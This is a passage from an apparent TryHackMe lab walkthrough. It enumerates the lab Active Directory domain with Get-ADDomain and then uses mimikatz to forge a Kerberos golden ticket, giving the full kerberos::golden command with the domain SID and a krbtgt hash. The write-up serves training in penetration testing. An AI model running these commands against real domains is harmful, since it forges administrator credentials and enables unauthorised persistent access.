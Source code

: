 We will get this:

```powershell
PS C:\Users\chloe.potter> Get-ADDomain


AllowedDNSSuffixes                 : {}
ChildDomains                       : {}
ComputersContainer                 : CN=Computers,DC=za,DC=tryhackme,DC=loc
DeletedObjectsContainer            : CN=Deleted Objects,DC=za,DC=tryhackme,DC=loc
DistinguishedName                  : DC=za,DC=tryhackme,DC=loc
DNSRoot                            : za.tryhackme.loc
DomainControllersContainer         : OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc
DomainMode                         : Windows2012R2Domain
DomainSID                          : S-1-5-21-3885271727-2693558621-2658995185
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=za,DC=tryhackme,DC=loc
Forest                             : tryhackme.loc
InfrastructureMaster               : THMDC.za.tryhackme.loc
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=
                                     System,DC=za,DC=tryhackme,DC=loc}
LostAndFoundContainer              : CN=LostAndFound,DC=za,DC=tryhackme,DC=loc
ManagedBy                          :
Name                               : za
NetBIOSName                        : ZA
ObjectClass                        : domainDNS
ObjectGUID                         : 1fc9e299-da51-4d03-baa0-862c3360c0b2
ParentDomain                       : tryhackme.loc
PDCEmulator                        : THMDC.za.tryhackme.loc
PublicKeyRequiredPasswordRolling   :
QuotasContainer                    : CN=NTDS Quotas,DC=za,DC=tryhackme,DC=loc
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {THMDC.za.tryhackme.loc}
RIDMaster                          : THMDC.za.tryhackme.loc
SubordinateReferences              : {DC=DomainDnsZones,DC=za,DC=tryhackme,DC=loc}
SystemsContainer                   : CN=System,DC=za,DC=tryhackme,DC=loc
UsersContainer                     : CN=Users,DC=za,DC=tryhackme,DC=loc
```

Now that we have the info, let's launch mimikatz again, same as before since it can crash:

```
C:\Tools\mimikatz_trunk\WIN32\mimikatz.exe
```

Inside of here, we need to generate a golden ticket:

```
kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10080 /ptt
```

We will see this:

![](../images/Pasted%20image%2020250527233805.png)

